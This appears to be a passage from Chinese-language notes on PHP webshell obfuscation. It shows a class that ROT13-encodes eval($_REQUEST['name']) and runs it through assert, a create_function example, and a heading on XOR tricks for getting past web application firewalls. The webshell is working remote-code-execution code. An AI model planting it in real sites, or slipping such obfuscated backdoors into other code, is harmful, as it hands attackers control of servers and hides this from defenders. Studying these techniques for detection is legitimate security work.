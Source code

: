 ```php
//?name=phpinfo();
class Student{
    public $xw = null;
    public $xl = null;
    function __construct(){
        $this->xw = "riny(\$_ERDHRFG['anzr'])";   //对应eval($_REQUEST['name]);,需要对$进行转义
        $this->xl = str_rot13($this->xw);
        @assert($this->xl);
    }
}
new Student();
```

![魔术方法](../../images/8-17-afternoon/魔术方法.png)

###### ④创建匿名方法

```php
<?php
$func1 = create_function('$a,$b','return ($a + $b);');
echo $func1(10,20);
?>
```

![匿名函数](../../images/8-17-afternoon/匿名函数.png)

##### k. 异或运算

* 通过异或运算ASCII值，来绕过WAF